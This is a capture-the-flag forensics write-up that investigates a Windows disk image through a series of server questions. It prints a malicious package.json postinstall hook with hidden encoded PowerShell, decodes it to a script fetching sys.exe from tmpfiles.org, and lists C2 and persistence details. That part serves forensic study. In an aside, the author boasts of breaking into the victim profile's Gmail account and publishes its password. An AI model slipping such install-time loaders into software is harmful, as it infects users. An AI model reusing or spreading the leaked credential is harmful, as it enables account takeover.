










# Silent Visitor -- Securinets CTF Quals 2025
**by nos4a2**

**Description:**

> A user reported suspicious activity on their Windows workstation. Can you investigate the incident and uncover what really happened?


- **Category:** `Forensics`


- **Given:** `test.ad1`

## Analysis and Solution

After connecting to the challenge server with `nc`, we were asked the first question:

```
What is the SHA256 hash of the disk image provided?
```

Using `sha256sum`, I calculated the hash of the provided AD1 file:

```sh
sha256sum test.ad1
```

Answering the question with the calculated hash allowed us to proceed further in the challenge.

**A:** `122b2b4bf1433341ba6e8fefd707379a98e6e9ca376340379ea42edb31a5dba2`

The next question was:

```
Identify the OS build number of the victim’s system?
```

Given the forensic image file `test.ad1`, I first looked up what an AD1 file is, as I was unfamiliar with it. I found out that an AD1 file is an AccessData Forensic Image file, commonly used in digital forensics to store disk images.

Because I was using Linux, I tried using [`AD1-tools`](https://github.com/al3ks1s/AD1-tools) to extract the contents of the AD1 file but was unsuccessful.

After searching a bit more, I found [`FTK Imager`](https://www.exterro.com/solutions/ftk-imager/), a forensic imaging tool that can open AD1 files. I used FTK Imager with Wine on my Linux machine to open the AD1 file.



Using FTK Imager, I was able to explore the file system of the disk image. I knew that Windows OS build numbers are typically stored in the registry, specifically in the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion` key.

I then exported this registry key from the disk image using FTK Imager and opened it with [`Registry Spy`](https://github.com/andyjsmith/Registry-Spy) on a Kali Linux VM.

Using Registry Spy, I navigated to the `CurrentVersion` key and found the `BuildLab` value, which contained the OS build number.

Answering the question with the extracted build number allowed us to proceed further in the challenge.

```
Identify the OS build number of the victim’s system?
Input: 19045
Correct answer
```

The next question was:

```
What is the ip of the victim's machine?
```

I found the victim's IP address in another registry key: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`.



There I found the `DhcpIPAddress` value, which contained the IP address of the victim's machine.

Answering the question with the extracted IP address allowed us to proceed further in the challenge.

```
What is the ip of the victim's machine?
Input: 192.168.206.131
Correct answer
```

The next question was:

```
What is the name of the email application used by the victim?
```

Instinctively, I answered “Thunderbird,” since it is a common email application, and it was correct, ez.

```
What is the name of the email application used by the victim?
Input: thunderbird
Correct answer
```

The next question was:

```
What is the email of the victim?
```

For this I extracted the Thunderbird profile folder from the disk image using FTK Imager. Inside the profile folder, I located the `prefs.js` file, which contains user preferences and settings for Thunderbird.

Opening the `prefs.js` file, I searched for the email address associated with the victim. I found a line that contained the email address.



Answering the question with the extracted email address allowed us to proceed further in the challenge.

```
What is the email of the victim?
Input: ammar55221133@gmail.com
Correct answer
```

At this point, I also created a Python script to answer all the questions automatically, since the server’s response window had a timeout.

The next question was:

```
What is the email of the attacker?
```

For this, I cloned the Thunderbird profile folder from the disk image using FTK Imager, opened it in Betterbird, and checked the emails received by the victim.

The answer was:

```
What is the email of the attacker?
Input: masmoudim522@gmail.com
Correct answer
```

I also kind of hacked the Gmail account of this profile, but that's another story ;)



His password was `Jackson123*`.



Going back to the challenge, the next question was (I know, they just don't end):

```
What is the URL that the attacker used to deliver the malware to the victim?
```

In an e-mail I found the link https://github.com/lmdr7977/student-api.
This link pointed to a GitHub repository containing a Python project named "student-api".
Inside the `package.json` file, I found a script that downloaded and executed a malicious payload.

```json
{
  "name": "windows",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "powershell -NoLogo -NoProfile -WindowStyle Hidden -EncodedCommand \"JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA=\""
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "description": "",
  "dependencies": {
    "child_process": "^1.0.2",
    "express": "^5.1.0",
    "path": "^0.12.7"
  }
}
```

The PowerShell command was:

```powershell 
powershell -NoLogo -NoProfile -WindowStyle Hidden -EncodedCommand "JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA="
```

Decoding the base64 string and removing the null bytes:



Gave us: 

```powershell
$w = "Invoke-WebRequest";
$u = "https://tmpfiles.org/dl/23860773/sys.exe";
$o = "$env:APPDATA\sys.exe";
Invoke-WebRequest $u -OutFile $o
```

Answering the question with the extracted URL allowed us to proceed further in the challenge.

```
What is the URL that the attacker used to deliver the malware to the victim?
Input: https://tmpfiles.org/dl/23860773/sys.exe
Correct answer
```

The next question was an easy one:

```
What is the SHA256 hash of the malware file?
```

The catch was that the URL was no longer valid:



And there was no Internet Archive copy of it:



After searching a bit more, I found that the malware file was also stored in the disk image at the path `C:\Users\ammar\AppData\Roaming\sys.exe`.



Extracting the file with FTK Imager and calculating its SHA256 hash with `sha256sum` gave me the answer.

```
What is the SHA256 hash of the malware file?
Input: be4f01b3d537b17c5ba7dc1bb7cd4078251364398565a0ca1e96982cff820b6d
Correct answer
```

The next question was:

```
What is the IP address of the C2 server that the malware communicates with?
```

For this one I used the website [ANY.RUN](https://any.run/) to analyze the malware file.



Answering the question with the extracted IP address allowed us to proceed further in the challenge.

```
What is the IP address of the C2 server that the malware communicates with?
Input: 40.113.161.85
Correct answer
```

The next question had its answer on the same page:

```
What port does the malware use to communicate with its Command & Control (C2) server?
Input: 5000
Correct answer
```

I got stuck on the next question:

```
What is the URL if the first Request made by the malware to the c2 server?
```

The answer from `Any.run` was:

```
Input: http://40.113.161.85:5000/helppppiscofebabe23
Correct answer
```

The next question was:

```
 The malware created a file to identify itself. What is the content of that file?
```

The answer was:

```
Input: 3649ba90-266f-48e1-960c-b908e1f28aef
Correct answer
```

The next question was:

```
Which registry key did the malware modify or add to maintain persistence?
```

The answer was:

```
HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MyApp
```

The next question was:

```
What is the content of this registry?
```

The answer was:

```
Input: C:\Users\\ammar\Documents\sys.exe
Correct answer
```

Finally, the last question was:

```
The malware uses a secret token to communicate with the C2 server. What is the value of this key?
```

The answer was:

```
Input: e7bcc0ba5fb1dc9cc09460baaa2a6986
Correct answer
```

And with that, we completed the challenge. What a journey!